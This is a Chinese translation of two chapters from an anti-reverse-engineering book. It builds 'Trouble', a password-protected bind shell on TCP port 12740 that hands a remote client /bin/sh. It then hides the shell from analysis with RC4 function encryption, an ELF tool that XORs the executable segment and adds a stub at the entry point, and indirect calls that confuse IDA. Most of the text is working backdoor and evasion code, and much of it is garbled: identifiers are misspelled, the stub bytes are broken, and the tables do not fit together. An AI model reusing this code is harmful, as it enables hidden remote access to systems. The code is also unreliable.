`albino-lobster@ubuntu:~antire-book/chap_4_static_analysis/dontpanic/build$ readelf -S .trouble/trouble`

有 13 个头文件，从偏移量 `0x31c8` 开始：

段头文件（Section Headers）：

| [Nr] | Name | Type | Address | Offset | Size | EntSize | Flags | Link | Info | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| [0] | NULL | | 0000000000000000 | 0000000000000000 | 0 | 0 | 00000000 | | | |
| [1] | .init | PROBITS | 0000000000000003 | 0000000000000400 | 0 | 120 | 00000120 | | | |
| [2] | .text | PROBITS | 000000000000017f | 0000000000000400 | 0 | 130 | 00000130 | | | |
| [3] | .check_password | PROBITS | 0000000000000107 | 0000000000000410 | 0 | 870 | 00000870 | | | |
| [4] | .fini | PROBITS | 0000000000000003 | 0000000000000417 | 0 | 197 | 00000197 | | | |
| [5] | .rodata | PROBITS | 0000000000000858 | 0000000000000180 | 0 | 190 | 00000190 | | | |
| [6] | .eh_frame | PROBITS | 0000000000000004 | 00000000000002d8 | A | 0 | 4 | 000002d8 | | | |
| [7] | .init_array | INIT_ARRAY | 0000000000000008 | 00000000000006f2 | 0 | fe8 | 8 | 0002fe8 | | | |
| [8] | .fini_array | FINI_ARRAY | 0000000000000008 | 00000000000002ff0 | WA | 0 | 8 | 0002ff0 | | | |
| [9] | .jcr | PROBITS | 0000000000000008 | 00000000000002f8 | WA | 0 | 8 | 00002f8 | | | |
| [10] | .data | PROBITS | 0000000000000160 | 0000000000000300 | WA | 0 | 64 | 00000300 | | | |
| [11] | .bss | NOBITS | 0000000000000320 | 0000000000000180 | WA | 0 | 64 | 00000160 | | | |
| [12] | .shhtrap | STRTAB | 0000000000000067 | 0000000000000000 | 0 | 0 | 1 | 00000160 | | | |

标志（Flags）含义：
`W` (write), `A` (alloc), `X` (execute), `M` (merge), `S` (strings), `L` (large)
`I` (info), `L` (link order), `G` (group), `T` (TLS), `E` (exclude), `x` (unknown)
`O` (extra OS requiring) `o` (OS specific), `p` (processor specific)

太棒了！现在你需要添加 `check_password_size` 的定义，以便 `Trouble` 在运行时知道 `check_password()` 函数的大小。你可以在 `check_password` 函数上方添加此行：

```c
extern void check_password_size;
```

如果你重新编译 `Trouble` 并在符号表中查找 `check_password_size`，你将找不到它。这是因为你还没有添加链接脚本逻辑。遗憾的是，这是 CMake 少数失效的场景之一。目前没有方法可以直接将脚本传递给链接器。我不得不通过“黑客手段”来实现。`Trouble` 的 `CMakeLists.txt` 更新如下所示：

使用 sed 将链接脚本插入 CMake 中

```cmake
project(trouble)
cmake_minimum_required(VERSION 3.0)
# 此命令将为 shell 创建一个 32 字节的 "password"。
# 该命令仅在运行 "cmake"时执行，如果你想生成新密码，
# 应从命令行运行 `cmake ..`。
execute_process(COMMAND /bin/sh -c 'cat /dev/urandom | tr -dc a-zA-Z0-9 | head -c 32'
  OUTPUTVARIABLE random_password)
### 将随机密码作为宏传递给 ${PROJECT_NAME}
add_definitions(-Dpassword=${random_password} -Dpassword_size=${random_password})
```

```cmake
set(CMAKE_C_FLAGS "${CMAKE_C_FLAGS} -Wall -Wextra -Wshadow -O3 -funroll-loops -fno-asynchronous-unwind")
add_executable(${PROJECT_NAME} src/trouble.c)
```

```cmake
add_custom_target(${PROJECT_NAME}_layout
  COMMAND sed -i 's,-o,${CMAKE_CURRENT_SOURCE_DIR}/trouble.layout,' ${CMAKE_BINARY_DIR}/trouble/link.txt
  DEPENDS ${PROJECT_NAME}
)
```

```cmake
# 构建成功后向用户显示随机密码
add_custom_command(TARGET ${PROJECT_NAME} POST_BUILD
  COMMAND ${CMAKE_COMMAND} -E echo "The build password is: ${random_password}")
```

添加的重要部分是逻辑。它使用 `sed` 工具将新的链接脚本插入到 CMake 生成的文件链接选项中。你可以通过编译 `Trouble` 并在符号表中查找 `check_password_size` 来验证其有效性。

验证链接脚本是否生效

```
albino-lobster@ubuntu:~/antire-book/chap_4_static_analysis/dontpanic/build$ readelf -s ./trouble/trouble | grep size
96: 000000000000107 @ NOT GLOBAL DEFAULT check_password_size
```

段表显示 `check_password()` 的长度为 `0x107` 字节。听起来没错。让我们继续。

## 解密逻辑

你将开始为 `Trouble` 添加解密逻辑。首先，你需要添加 `crypto`。你将使用一个基于简化 BSD 许可证的流行的 RC4 开实现。

`chap_4_static_analysis/dontpanic/trouble/src/rc4.h`

```c
/*
* rc4.h
*
* Copyright (c) 1996-2000 Whistle Communications, Inc.
* 保留所有权利。
*
* 根据以下义务和保证声明，本软件的使用
* 和重新分发（以源代码或目标代码形式，无论是否
* 进行修改）均获得 Whistle Communications 许可；
* 但前提是：
* 1. 源代码或目标代码的所有复制品必须包含上述
* 版权声明和下方的免责声明；以及
* 2. 不允许以任何方式或形式使用 Whistle
* Communications, Inc. 的商标，包括在广告、背书或其他处
* 的 "WHISTLE COMMUNICATIONS" 标记，除非上述版权声明或
* 软件中另有出现。
*
+ * 本软件由 WHISTLE COMMUNICATIONS “按样”提供，
* 在法律允许的最大范围内，WHISTLE COMMUNICATIONS 不对
* 本软件做出任何明示或隐含的陈述或保证，
* 包括但不限于所有隐含的 **/ 的
* 销售性、特定用途的适用性或非侵权。
* WHISTLE COMMUNICATIONS 不保证、担保或做出任何
* 关于本软件的使用，或使用本软件的结果，
* 就其正确性、准确性、可靠性或其他陈述。
* 在任何情况下，WHISTLE COMMUNICATIONS 对任何由于本
* 软件引起的或导致的任何损害不承担责任，包括
* 不限于任何直接的、间接的、偶然的、特殊的、示例的
* 惩罚性的或后果性的损害、替代品的采购或
* 服务、使用、数据或利润的损失，根据任何
* 理论，无论是合同、严格责任或侵权
*（过失或其他）以任何方式由
* 本软件引起的，即使 WHISTLE COMMUNICATIONS 已被告知
* 损害此类风险。
 */
```

```c
#ifndef _SYS_CRYPT_RC4_H
#define _SYS_CRYPT_RC4_H
#include <stdint.h>
struct rc4_state
{
    uint8_t perm[256];
    uint8_t i;
    uint8_t j;
};
extern void rc4_init(struct rc4_state *state, const uint8_t *key, int keylen);
extern void rc4_crypt(struct rc4_state *state, const uint8_t *inbuf, uint8_t *outbuf, int buflen);
#endif
```

```c
#include "rc4.h"
#include <sys/types.h>
```

# 第 4 章：对抗字符串分析

```c
static __inline void
swap_bytes(uint8_t *a, uint8_t *b)
{}
```

```c
  uint8_t temp;
temp = *a;
*a = *b;
*b = temp;
```

```c
/*
* 使用提供的密钥初始化 RC4 状态缓冲区，
* 密钥长度可以是任意。
*/
```

```c
void
rc4_init(struct rc4_state *const state, const uint8_t *key, int keyelen)
{}
```

```c
  uint8_t j;
  int i;
```

```c
/* 使用恒等换初始化状态 */
for (i = 0; i < 256; i++)
  state->perm[i] = (uint8_t)i;
  state->index1 = 0;
  state->index2 = 0;
```

```c
/* 使用密钥数据随机化置换 */
for (i = 0; i < 256; i++)
  j += state->perm[i] + key[i % keyelen];
  swap_bytes(&state->perm[i], &state->perm[j]);
```

```c
/*
* 使用提供的 RC4 状态缓冲区加密数据。
* 输入和输出缓冲区可以是同一个缓冲区。
* 由于 RC4 是一种流密码，该函数同时用于
* 加密和解密。
*/
```

```c
void
rc4_crypt(struct rc4_state *const state,
  const uint8_t *inbuf, uint8_t *outbuf, int buflen)
```

```c
int i;
uint8_t j;
for (i = 0; i < buflen; i++) {
    /* 更新修改索引 */
    state->index1++;
    state->index2 += state->perm[state->index1];
    /* 修改置换 */
    swap_bytes(&state->perm[state->index1],
               &state->perm[state->index2]);
    /* 加密/解密下一个字节 */
    j = state->perm[state->index1] + state->perm[state->index2];
    outbuf[i] = inbuf[i] ^ state->perm[j];
}
```

你需要更新 `Trouble` 的 `CMakeLists.txt` 以包含 `rc4.c`。

```cmake
add_executable(${PROJECT_NAME} src/trouble.c src/rc4.c)
```

接下来，你需要更新 `trouble.c` 以在 `check_password()` 中使用 RC4 解密。
以下是更新后的文件。

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <sys/man.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include "rc4.h"
```

```c
#include "xor_string.h"
extern void* check_password_size;
unsigned char check_password_key[128] __attribute__((section("rc4_check_password"))) = { };
```

```c
bool __attribute__((section(".check_password"))) check_password(const char* p_password)
{
    char pass[password_size] = {};
    XOR_STRING31(pass, password, 0xaa);
    // 验证密码
    return memcmp(undo_xor_string(pass, 32, 0xaa), p_password, 32) != 0;
}
```

- 这实现了一个非常简单的绑定 shell（bind shell）。服务器在允许访问 shell 之前需要一个密码。密码目前在每次运行 `cmake .` 时随机生成。服务器没有关闭机制，因此它会一直运行直到被杀死。

```c
int main(int p_argc, char* p_argv[])
{
    (void*)p_argc;
    (void*)p_argv;
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        fprintf(stderr, "Failed to create the socket.");
        return EXIT_FAILURE;
    }
    struct sockaddr_in bind_addr = {};
    bind_addr.sin_family = AF_INET;
    bind_addr.sin_addr.s_addr = htons(INADDR_ANY);
    bind_addr.sin_port = htons(12740);
    int bind_result = bind(sock, (struct sockaddr*) &bind_addr,
        sizeof(bind_addr));
    if (bind_result != 0)
    {
        perror("Bind call failed");
        return EXIT_FAILURE;
    }
    int listen_result = listen(sock, 5);
    if (listen_result != 0)
    {
      perror("Listen call failed");
      return EXIT_FAILURE;
    }
    while (true)
    {


```c
int client_sock = accept(sock, NULL, NULL);

if (client_sock < 0) {

  perror("Accept call failed");

  return EXIT_FAILURE;

}

int child_pid = fork();

if (child_pid == 0)

{

  // 读取密码
  char password_input[password_size] = {};
  int read_result = read(client_sock, password_input, password_size - 1);
  if (read_result < (int)(password_size - 1))
  {
    close(client_sock);
    return EXIT_FAILURE;
  }
  // 解密目标
  struct rc4_state state = {};
  mprotect(check_password, password_size, PROT_READ | PROT_WRITE | PROT_EXEC);
  rc4_init(&state, check_password_key, sizeof(check_password_key));
  rc4_crypt(&state, (unsigned char*)check_password, (unsigned char*)check_password, password_size);
  mprotect(check_password, password_size, PROT_READ | PROT_EXEC);
  dup2(client_sock, 0);
  dup2(client_sock, 1);
  dup2(client_sock, 2);
  char empty[] = { NULL };
  char binsh[] = {'/', 'b', 'n', '/', 's', 'h'};
  execve(binsh, empty);
  close(client_sock);
  return EXIT_SUCCESS;

}
}
close(sock);
}
```

Trouble 中的重大变化是在执行 `check_password()` 之前对其进行解密。注意声明了另一个节：

```c
unsigned char check_password_key[128] __attribute__((section(".rc4_check_password")));
```

该节将包含加密 `check_password()` 的密钥。

## 加密逻辑

你已经在 Trouble 中添加了 RC4 解密逻辑。现在你需要添加 RC4 加密逻辑。在 Trouble 编译之前，不会加密 `check_password()`。我写了一个名为 `encryptFunctions` 的工具，它接收 ELF 二进制文件并加密函数。该工具通过查找以“.rc4”开头的节。它会将“rc4”节与要加密的节匹配。例如，你添加到 Trouble 的节有 `.rc4_check_password` 和 `.check_password`。工具将在 `.rc4_check_password` 节存储随机生成的密钥并加密 `.check_password` 节。`encryptFunctions` 项目由四个文件组成：`CMakeLists.txt`、`encryptFunctions.cpp`、`rc4.c` 和 `rc4.h`（注意 `rc4` 文件在前面的章节列出）。

`chap_4_static_analysis/dontpanic/encryptFunctions/CMakeLists.txt`
```cmake
project(encryptFunctions CXX)
cmake_minimum_required(VERSION 2.6)
set(CMAKE_CXX_FLAGS "-Wall -g -std=c++11")
add_executable(${PROJECT_NAME} src/encryptFunctions.cpp src/rc4.c)
set_source_properties(src/rc4.c PROPERTIES LANGUAGE CXX)
```

`chap_4_static_analysis/dontpanic/encryptFunctions/src/encryptFunctions`
```cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <iomanip>
#include <cstring>
#include <random>
#include <elf.h>
#include <map>
#include "rc4.h"

/**
 * 此工具将遍历节表查找特殊命节。具体来说，任何以 ".rc4." 开头的节将被标记为存储 128 字节密钥的位置，而由 ".rc4_*" 名的节将使用 rc4 进行加密。
 */

/**
 * 此函数找到特殊的 ".rc4_" 节，生成密钥并加密指定的节。
 *
 * @param[in,out] p_data ELF 二进制文件
 * @return 成功返回 true，否则返回 false
 */
```
```cpp
bool encrypt_functions(std::string& p_data)
{
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' || p_data[3] != 'F')
    {
        return false;
    }

    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    Elf64_Shdr* sections = reinterpret_cast<Elf64_Shdr*>(p_data[ehdr->sh_offset]);
    Elf64_Shdr* sections_count = ehdr->sh_nnum;
    Elf64_Shdr* sections_header = reinterpret_cast<Elf64_Shdr*>(p_data[ehdr->sh_offset]);

    ehdr->sh_size *= ehdr->sh_strndx;
    const char* strings_table = &p_data[sections_header->sh_offset];

    std::map<std::string, Elf64_Addr> encrypt_mappings;

    // 找到所有 ".rc4" 节。
    Elf64_Shdr* current = sections;
    for (int i = 0; i < sections_count; i++, current++)
    {
        std::string section_name(&strings_table[current->sh_name]);
        if (section_name.find(".rc4") == 0)
        {
            // 存储节名的其他头部以找到加密位置
            std::string func_name = "." + section_name.substr(5);
            encrypt_mappings[func_name] = current->sh_offset;
        }
    }

    // 找到所有 ".rc4_" 引用的节。
    current = sections;
    std::random_device rd;
    std::uniform_int_distribution<int> dist(0, 255);
    for (int i = 0; i < sections_count; i++, current++)
    {
        std::string section_name(&strings_table[current->sh_name]);
        if (encrypt_mappings.find(section_name) != encrypt_mappings.end())
        {
            // 在此处加密逻辑
        }
    }
    return true;
}
```

## 第 4 章：对抗字符串分析

```cpp
// 随机生成一个密钥用于加密
unsigned char key[128] = { 0 };
for (std::size_t i = 0; i < sizeof(key); i++)
{
key[i] = dist(rd);
}
```

```cpp
// 加密该区域
struct rc4_state = {};
rc4_init(&state, sizeof(key));
rc4_crypt(&state, reinterpret_cast<unsigned char*>(&p_data[current->sh_of_fsetset]),
reinterpret_cast<unsigned char*>(&p_data[current->sh_offset]), current->sh_size);
memcpy(&p_data[encrypt_mappings[section_name]], key, sizeof(key));
std::cout << "[+] Encrypted 0x" << std::hex << current->sh_offset << std::endl;
```

```cpp
return true;
```

```cpp
int main(int p_argc, char** p_argv)
{
if (p_argc != 2)
{
  std::cerr << "Usage: ./encryptFunctions <file path>" << std::endl;
  return EXIT_FAILURE;
}

std::ifstream inputFile(p_argv[1], std::ifstream::in | std::ifstream::binary);
if (!inputFile.is_open() || !inputFile.good())
{
  std::cerr << "Failed to open the provided file: " << p_argv[1] << std::endl;
  return EXIT_FAILURE;
}

std::string input((std::istambuf_iterator<char>(inputFile), std::istambuf_iterator<char>()));
inputFile.close();

if (!encrypt_functions(input))
{
  std::cerr << "Failed to complete the encryption function" << std::endl;
  return EXIT_FAILURE;
}

std::ofstream outputFile(p_argv[1], std::ofstream::out | std::ofstream::binary);
if (!outputFile.is_open() || !outputFile.good())
{
  std::cerr << "Failed to open the provided file: " << p_argv[1] << std::endl;
  return EXIT_FAILURE;
}

outputFile.write(input.data(), input.length());
outputFile.close();

return EXIT_SUCCESS;
}
```

为了使用 `encryptFunctions_p`，你需要更新基础目录“dontpanic”中的 `CMakeLists.txt`。它应该如下：

## Don't Panic 的 CMakeList.txt

```cmake
project(dontpanic C)
cmake_minimum_required(VERSION 3.0)

add_subdirectory(encryptFunctions)
add_subdirectory(trouble)
```

然后更新 Trouble 的 `CMakeList.txt` 以包含对 `encryptFunctions` 的执行：

## 更新 Trouble 的 CMakeList.txt

```cmake
project(trouble C)
cmake_minimum_required(VERSION 3.0)

# 这将为 bind shell 创建 32 字节的“密码”。该命令
# 只在运行 "cmake" 时执行
```

最后！你可以重新编译 Trouble。应该应该会有与 `check_password()` 加密相关的额外输出。

## 使用 encryptFunctions 重新构建 Trouble

```bash
albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic/build$ make
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albino-lobster/antire_book/chap_4_static_analysis/dontpanic/build
[ 20%] Built target stripBinary
[ 40%] Built target fakeHeadersXBit
Scanning dependencies of target encryptFunctions
[ 50%] Built CXX object encryptFunctions/CMakeFiles/encryptFunctions.dir/src/encryptFunctions.cpp.o
[ 60%] Built CXX object encryptFunctions/CMakeFiles/encryptFunctions.dir/src/rc4.c.o
[ 70%] Linking CXX executable encryptFunctions
[ 70%] Built target encryptFunctions
[ 70%] Built target addLLS
Scanning dependencies of target trouble
[ 80%] Building C object/CMakeFiles/trouble.dir/src/trouble.c.o
[ 90%] Building C object/CMakeFiles/trouble.dir/src/rc4.c.o
[100%] Linking C executable trouble
The bind shell password is: t5M5Oag4uurRwn0Lxo4KCF9YnWir5V
[+] Encrypted 0x2310
Built target trouble
```

现在到了有趣的部分。让我们来看看 `check_password()` 在反汇编器中长什么样。

Radare2 中加密的 `check_password()`

```bash
albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic/build$ radare2 ./trouble/trouble
Warning: Cannot initialize dynamic strings
-- Welcome to "IDA the roguelik"
[0x00403b0]> aaa
[x] Analyze all flags starting with sym. and entry(0)
[x] Analyze bytes of instructions for references (aar)
[x] Analyze calls (aac)
[ ] * Use -AA or perform additional analysis.
[x] Constructing a function name for func.* and sym.* functions (aan)
[0x00403b0]> pdf @ sym.check_password
```

## check_password() 周围的反汇编

Radare2 生成了 `check_password()` 的反汇编，但它完全没用。对于尝试隐藏字符串来说还不错吧？加密函数会给运行时和内存分析带来困难，我们稍后会介绍。记住，仅仅因为加密了函数并不意味着逆向工程师无法解密它。以下反汇代码没有符号，但你可以看到逆向工程师能够发现解密元素：


```assembly
.text:000000000004028F mov edx, 7
.text:0000000000040294 mov esi, 107h
.text:0000000000040299 rep stosq
.text:000000000004029C mov eax, ebp
.text:000000000004029E stosw
.text:00000000000402A0 mov edi, offset_password
.text:00000000000402A5 call mrote
.text:00000000000402AA lea rdi, [rsp+188h+var_168]
.text:00000000000402AF mov eax, 80h
.text:00000000000402B4 mov esi, offset check_password
.text:00000000000402B9 call rc4_init
.text:00000000000402BE mov eax, 107h
.text:00000000000402C3 mov edx, offset check_password
.text:00000000000402C8 lea rdi, [rsp+188h+var_168]
.text:00000000000402CD lea ec, [rax]
.text:00000000000402CF mov rsi, rdx
.text:00000000000402D2 call rc4-crypt
.text:00000000000402D7 mov edx, 5
.text:00000000000402DC mov esi, 107h
.text:00000000000402E1 mov edx, offset check_password
.text:00000000000402E6 call mprotect
.text:00000000000402EB lea rdi, [rsp+188h+var_4
```

# 第 4 章：对抗字符串分析

```cpp
/**
* 将解密存根添加到第一个 PF_X 段的末尾。重写
* entry_point 地址并对异或“加密” PF_X 段，范围从程序
* 头头部之后到该段的结束。
*
* @param[in,out] p_data ELF 二进制文件
* @return 成功返回 true，否则返回 false
*/
```

```cpp
bool add_cryptor(std::string& p_data) {
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' ||
        p_data[3] != 'F') {
        std::cerr << "[-] Bad magic" << std::endl;
        return 0;
    }
```

```cpp
Elf64_Phdr* ehdr = reinterpret_cast<Elf64_Phdr*>(&p_data[0]);
Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[ehdr->e_phoff]);
int ph_entries = ehdr->e_phnum;
```

```cpp
const Elf64_Phdr* segment = NULL;
for (int i = 0; i < ph_entries && segment == NULL; i++, phdr++) {
    if (phdr->p_type == PT_LOAD && phdr->p_flags & PF_X) {
        // 为了写入 PF_X 段，我们将设置写入
        // 标志。然而，更优雅的解决方案是在解密存根中
        // 使用 mprotect。
        phdr->p_flags |= PF_W;
        segment = phdr;
    }
}
```

```cpp
if (segment == NULL) {
    std::cerr << "[-] Couldn't find an executable segment." << std::endl;
    return false;
}
```

```cpp
// 我们不能加密 ELF 头或程序头，否则会破坏
// 加载器。因此，从程序头之后开始加密。此逻辑
// 假设 ELF 头和程序头位于
// segment 变量范围内
uint32_t encrypt_start = ehdr->e_phoff + (ehdr->e_phsize * ehdr->e_phnum);
uint32_t virt_start = segment->p_vaddr + encrypt_start;
```

```cpp
// 存储真实的偏移量，我们可以用存根的地址覆盖它
uint32_t actual = ehdr->e_entry;
```

```cpp
// 从*技术上*来说，这很狡猾，我们会把存根
// 写入程序头指定范围之外地址空间
// 但是！在现实世界中，地址空间是页对齐的
// 只要我们能将存根置于 PF_X 段的末尾
// 和页面结束之间，就是安全的。可以只更新
// segment 以包含存根的大小，IDA 在
// 依赖于页对齐时会感到不悦。
ehdr->e_entry = segment->p_vaddr + segment->p_filesz;
```

```cpp
// 这是我们的解密逻辑。非常简单。
unsigned char stub[] = {
  x48\xC7\xC5\xFF\xDE\x00 // mov rbp, virt_start
  \x49\xC7\xC1\xBB\xAA\x00 // mov r9, e_entry
  \x49\xC7\xC0\xAA\x00\x00 // mov r8, actual
  \x44\xC3\x45\x00 // xor [rbp+var_0], r8
  \x44\xB8\x45\x00 // mov r8, size
  \xFF\xC5 // inc rbp
  \x44\xC3\xD9 // cmp rbp, r9
  \x7C\xE9 // jl short
  \x48\xC7\xC5\x19\x03\x40 // mov rbp, 40
};

// 这是一个非常基本的检查，确保我们没有覆盖页
// 边界。然而，注意我使用的值 (4096) 适用于
// 我的系统。4096 是常见的页大小，但你的情况可能会因人而异。
int lower_bound = (encrypt_start + segment->p_filesz) % 4096;
int upper_bound = (encrypt_start + segment->p_filesz) + sizeof(stub) % 4096;
if (lower_bound > upper_bound) {
    std::cerr << "[-] Stub cross boundaries" << std::endl;
    return false;
}

// 将汇编中的值替换为真实值
memcpy(stub + 3, &virt_start, 4);
memcpy(stub + 10, &ehdr->e_entry, 4);
memcpy(stub + 40, &actual, 4);
// 将存根拷贝到二进制文件中
memcpy(&p_data[segment->p_filesz], stub, sizeof(stub));

// "加密"
char xorValue = 0xaa;
for (uint32_t i = encrypt_start; i < segment->p_filesz; i++) {
    p_data[i] ^= xorValue;
}

return true;
```

```cpp
int main(int argc, char** p_argv) {

    if (argc != 2) {

        std::cerr << "Usage: ./cryptor <file path>" << std::endl;

        return EXIT_FAILURE;

    }

    std::ifstream inputFile(p_argv[1], std::ifstream::in | std::ifstream::binary);

    if (!inputFile.is_open() || !inputFile.good()) {

        std::cerr << "Failed to open the provided file: " << p_argv[1] << std::endl;

        return EXIT_FAILURE;

    }

    std::string input(std::istambuf_iterator<char>(inputFile), std::istambuf_iterator<char>());

    inputFile.close();

    if(!add_cryptor(input)) {

        return EXIT_FAILURE;

    }

    std::ofstream outputFile(p_argv[1], std::ofstream::out | std::ofstream::binary);

    if (!outputFile.is_open() || !outputFile.good()) {

        std::cout << "Failed to open the provided file: " << p_argv[1] << std::endl;

        return EXIT_FAILURE;

    }

    outputFile.write(input.data(), input.length());

    outputFile.close();

    return EXIT_SUCCESS;

}
```

你需要将项目添加到 dontpanic 的顶层 CMakeLists.txt 中

`chap_4_static_analysis/dontpanic/CMakeLists.txt`

```cmake

project(dontpanic C)

cmake_minimum_required(VERSION 3.0)

add_subdirectory(encryptFunctions)

add_subdirectory(cryptor)

add_subdirectory(trouble)

```

最后，你需要更新 Trouble 的 CMakeLists.txt 在编译后执行 cryptor。

Trouble's CMakeLists.txt with Cryptor

```cmake

project(trouble C)

cmake_minimum_required(VERSION 3.0)

# 这创建一个 32 字节的“密码”用于绑定 shell。此命令

# 仅在执行 make 时运行，所以如果你想生成新密码，

# 应该从命令行运行 make。

exec_program("/bin/sh", "-c", "cat /dev/urandom | head -c 32 > password")

```

## 第 4 章：对抗字符串分析

GNU_STACK 0x000000000000 0x000000000000 0x000000000000
0x000000000000 0x000000000000 RW 10
0x00000000003fe8 0x00000000003fe8 0x00000000003fe8
0x00000000000118 0x00000000000118 R 1

段到节的映射（Segment to Section mapping）：

| 段 (Segment) | 节 (Sections) |
| :--- | :--- |
| 00 | .init .text .check_password .fini .rodata .eh_frame |
| 01 | .init_array .fini_array .jcr .data .rc4_check_password .bss |
| 02 | |
| 03 | .init_array .fini_array .jcr |

注意看入口点是如何从第一个段的末尾开始的？Cryptor 的这个特性与实际的加加密无关，但值得注意的是，因为汇编器很难处理它。查看 Radare2 是如何失败的。

### Radare2 无法找到入口点的异常

```
albino-lobster@ubuntu:~/antire_book/chap_4_static_analysis/dontpanic/build$ radare2 ./trouble

Warning: Cannot initialize dynamic strings

Warning: read (init_offset)

-- 在苏联俄罗斯，radare2 会调试你！

0x00403154> aaa
```

为什么 Radare2 在这上遇到了困难？Cryptor 利用了这样一个事实：当第一个段加载到内存中时，它是按页对齐的。这意味着在被映射的加载段末尾有未使用的空间。

Cryptor 将解密存根（stub）插入到这个空间中。然而，由于 Radare2 不期望程序头之外之后有任何内容，它“无法”找到入口点（即解密存根）。

同样，IDA 也弹出了两个不同的警告框。



“第一个警告”



IDA 尝试反汇编二进制文件，但结果并不顺利，因为所有代码都被 Cryptor 混淆了。



“使用 Cryptor 后的 IDA 导航栏”

同样，像 Radare2 一样，IDA 反汇编中也不包含解密存根。逆向工程师有什么办法反汇编入口点吗？有！GDB 来救你了！

## 第 4 章：对抗字符串分析

### 使用 GDB 反汇编存根

```
albino-lobster@ubuntu:~antire_book/chap_4_static_analysis/dontpanic/build$ gdb ./trouble/trouble

GNU gdb (Ubuntu 7.11.1-ubuntu-16.04) 7.11.1

Copyright (C) 2016 Free Software Foundation, Inc.

License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

这是免费软件：你可以自由地复制和分发它。在法律允许的范围内，不提供任何保证。输入 "show copying" 查看详情。

此 GDB 配置为 "x86_64-linux-gnu"。

输入 "show configuration" 查看配置详情。

有关错误报告的说明，请参见：

<http://www.gnu.org/software/gdb/bugs/.

在线查找 GDB 手档和其他文档资源：

<http://www.gnu.org/software/gdb/documentation/>。

需帮助时，输入 "help"。

输入 apropos word来搜索与“word”相关的命令...

正在从 ./trouble/trouble 读取符号...（未找到调试符号）...完成。

(gdb) disas 0x403154,0x403182

从 0x403154 到 0x403182 的汇编代码转储：

0x0000000004031540 无法访问地址 0x403154内存

(gdb) start

在 0x400130 临时断点 1

启动程序: /home/albino-lobster/antire_book/chap_4_static_analysis/dontpanic/build/trouble

收到信号 SIGINT，中断。

0x000000000401d4a0 in    _yscall

(gdb) disas 0x403154,0x403182

从 0x403154 到 0x403182 的汇编代码转储：

0x0000000004031540      mov     $0x400120,%rbp

0x000000000403154a      mov     $0x403154,%r9

0x0000000004031546      mov     $0xaa,%r8

0x0000000004031569      xor     %r8,0(%rbp)

0x000000000403156d      mov     $0(%rbp),r8

0x0000000004031571      inc     %rbp

0x0000000004031574      cmp     %r9,%rbp

0x0000000004031577      jl      0x403162

0x0000000004031579      mov     $0x4003b0,%rbp

0x0000000004031580      jmp     *%rbp

汇编转储结束。

(gdb)
```


起 `GDB` 不想反汇编存根。但一旦 `trouble` 开始运行，反汇编函数就没有问题了。

# 第 5 章：对抗分析

最终，逆向工程师会破解保护二进制文件的混淆，并暴露反汇编代码。然而，有很多方法可以让你逆向工程师的工作变得困难。

## 间接调用

`Radare2` 和 `IDA` 等工具中的函数引用对逆向工程师来说是无价的。交叉引用显示了各种连接并提供了所需的上下文。`IDA` 显示了 `check_password()` 的交叉引用。

`check_password()` 交叉引用

```
.text:0000000000400740 public check_password

.text:0000000000400740 check_password near ; CODE XREF:main+13

.text:0000000000400740 var_38 = xmmword ptr -38h

.text:0000000000400740 var_28 = xmmword ptr -28h

.text:0000000000400740 var_18 = byte ptr -18h

.text:0000000000400740 var_10 = qword ptr -10h
```

如果你遵循代码引用，你会在 `main` 函数中。`check_password()` 的调用非常清晰。

## 第 5 章：对抗代码流分析

### 从 main 调用 check_password()

```
.text:0000000000400268 lea rdi, [rsp+78h+var-48]

.text:000000000040026D call check_password
```

尝试使用函数指针来隐藏这个直接调用。在 `check_password()` 函数下方添加了此声明：

```c
bool (*indirect_call)(const char*) = check_password;
```

接下来更新 `main()` 中的 `check_password()` 调用以使用函数指针。

使用函数指针调用 `check_password()`

```c
if ((indirect_call)(password_input))
{
    close(client_sock);
    return EXIT_FAILURE;
}
```

重新编译 `Trouble` 看看 `IDA` 对 `check_password()` 的交叉引用是怎么说的。

`check_password()` 的代码和数据引用

```
.text:0000000000400010 public check_password

.text:0000000000400010 check_password near ; CODE XREF:main+13

.text:0000000000400010 ; DATA XREF:data:indirect_call

.text:0000000000400010 var_38 = xmmword ptr -38h

.text:0000000000400010 var_28 = xmmword ptr -28h

.text:0000000000400010 var_18 = byte ptr -18h

.text:0000000000400010 var_10 = qword ptr -10h
```

嗯……这并没有改进。通过函数指针，我导致了一个交叉引用和一个代码引用！看看 `main()` 中 `check_password()` 的调用。

### 通过函数指针调用 check_password()

```
.text:0000000000400268 lea rdi, [rsp+78h+var-48]

.text:000000000040026D call cs:indirect_call
```

代码反汇编成了我想做的间接函数调用。`IDA` 如何知道调用是 `check_password()` 的？如果你双击 `IDA` 中的 `cs:indirect_call` 链接，你就会跳转到：

### .data 中的 indirect_call 定义

```
.data:00000000000063008 public indirect_call

.data:00000000000063008 indirect_call dq offset check_password ; DATA XREF:main+13
```

好吧，这样就可以了。`IDA` 必须查看存储在 `indirect_call` 中的值，并使用该值确定调用去向。尝试用 `NULL` 代替 `check_password` 初始化函数指针。

```c
bool (*indirect_call)(const char*) = NULL;
```

接下来更新 `main()` 将 `check_password()` 存入 `indirect_call`。

更新 `Trouble` 的 `main()` 将 `check_password()` 存入 `indirect_call`

```c
int main(int argc, char* p_argv[])
{
    (void)argc;
    (void)p_argv;
    indirect_call = check_password;
}
```

重新编译后看看 `IDA` 说什么。

然而，`indirect_call` 发生了。它从 `.data` 移动到了 `.bss` 没有任何默认值。

### 初始化 NULL 后的 indirect_call

```
.bss:0000000006031888 public indirect_call

.bss:0000000006031888 indirect_call dq ? ; DATA XREF:main+15

.bss:0000000006031888 ; main+145
```

